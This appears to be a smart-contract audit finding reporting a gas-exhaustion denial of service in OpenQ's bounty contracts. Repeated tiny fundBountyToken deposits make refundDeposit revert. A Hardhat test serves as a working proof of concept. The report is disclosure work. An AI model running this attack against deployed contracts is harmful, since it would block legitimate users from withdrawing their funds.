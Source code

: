 modern_Alchemist_00

unlabeled

# [H] - RefundDeposit will fail in the future due to Out of Gas error.

## Summary

refundDeposit() in the DepositManagerV1.sol calls a view function - bounty.getLockedFunds(depToken) which iterates over each deposits array. The deposit array increases in length whenever the receiveFunds is called. So, as it increases the gas used to call the refundDeposit() also increases. This can eventually run out of gas when it deposits array reach about 4200 in length.

## Vulnerability Detail

The code where the deposits array is iterated is on **Line 333 of BountyCore.sol - in the getLockedFunds function.**

An attacker can easily attack this by calling `fundBountyToken()` multiple times(about 4200 times) with very low amount of tokens. Since the chain used here is polygon, the cost of attack is low.

Once the `deposits` array is too large, the function `refundDeposit()` will no longer work and when the real user tries to withdraw, the funds won’t be sent as the function reverts.

The below code was used to run the tests and eventually make the function run out of gas.

## Impact

It has an impact on the entire contract

## Code Snippet



```solidity

describe('gas error', () => { 
		it("Should run out of gaaaaassss", async () => {
			await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
			const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

			// Assume attacker has some very small amount of link tokens. Transfering some from owner
			await mockLink.connect(owner).transfer(attacker.address,5000)


			let linkDepositId;
			// User deposits
			await mockLink.connect(owner).approve(bountyAddress, ethers.utils.parseEther("9499"));
			linkDepositId = generateDepositId(Constants.bountyId, 0);
			await depositManager.connect(owner).fundBountyToken(bountyAddress, mockLink.address, ethers.utils.parseEther("9499"), 1, Constants.funderUuid);

			const balanceAfterFunded = await mockLink.balanceOf(owner.address);

			// Attacker approves and deposits very small amounts in loops
			// Since the chain used is Polygon, the cost of attack is low
			await mockLink.connect(attacker).approve(bountyAddress, 5000);
			const volume = 1;
			for(let i=1; i<4200; i++){
				await depositManager.connect(attacker).fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);
			}

			const thirtyTwoDays = 2765000;
			ethers.provider.send("evm_increaseTime", [thirtyTwoDays]);

			await expect(depositManager.connect(owner).refundDeposit(bountyAddress, linkDepositId)).to.be.reverted;

			const balanceAfterRefund = await mockLink.balanceOf(owner.address);
			expect(balanceAfterFunded).to.eq(balanceAfterRefund);

		})
	 })

```

So as seen above, when about 4200 deposits where made and after that when the refundDeposit() was called, it gave an out of gas error.

## Tool used

Hardhat

Manual Review

## Recommendation

To have some upper bound on gas consumption with that another for loop is tracking
